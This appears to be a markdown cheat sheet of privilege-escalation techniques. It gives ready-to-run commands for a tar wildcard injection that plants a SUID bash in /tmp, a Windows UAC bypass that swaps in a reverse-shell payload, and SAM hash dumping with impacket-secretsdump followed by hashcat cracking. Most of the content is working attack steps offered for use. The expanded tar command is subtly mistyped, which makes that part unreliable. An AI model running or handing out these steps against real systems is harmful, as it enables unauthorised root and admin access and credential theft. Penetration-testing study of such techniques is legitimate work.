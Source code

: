 ### tar wildcard exploit
If the cron script or the sudo rule allowed something be like
```
tar cf FIXED_TAR_NAME *
```
Create a script with following content
```
#!/bin/bash
cp /bin/bash /tmp/bash && chmod 4755 /tmp/bash
```
Then create some more files in the script's directory
```
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
Then when running the script, it will be interpreted as
```
tar cf FIXED_TAR_NAME --checkpoint=1 --checkpoint=action=exec=sh shell.sh
```
Go to /tmp will find a suid set bash

### UACBypass
If you already in a user profile which is a admin group user,
but you are not having a high mandatory level shell.
You need UACBypass exploit to get admin shell.

#### CLI version
It is more complicated with CLI UACBypass. First will need to check if the UAC is really bypassable
```
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System 
```
If the return `ConsentPromptBehaviorAdmin` value is 5, it means it is using the default setting for UAC. 

[UAC bypass exploit](https://github.com/ScriptKiddieTutorials/Bypass-UAC) (very useful for ARM devices since it does not require compilation)

To use the ps1 exploit, simply modify the last line of elev-function.ps1
to your desired payload, maybe a reverse shell payload created by msfvenom 
or using nc.exe to call a reverse shell.

#### GUI version
If you somehow obtain a GUI access like RDP, you simply need to right click the command prompt or powershell icon and select `run as administrator`

### local hash dump
If SAM file and SYSTEM file are available without getting admin access, use impacket-secretsdump
```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```
Then save the admin hash to a file and  crack the admin hash with hashcat
```bash
hashcat -m 1000 admin.hash /usr/share/wordlists/rockyou.txt
```

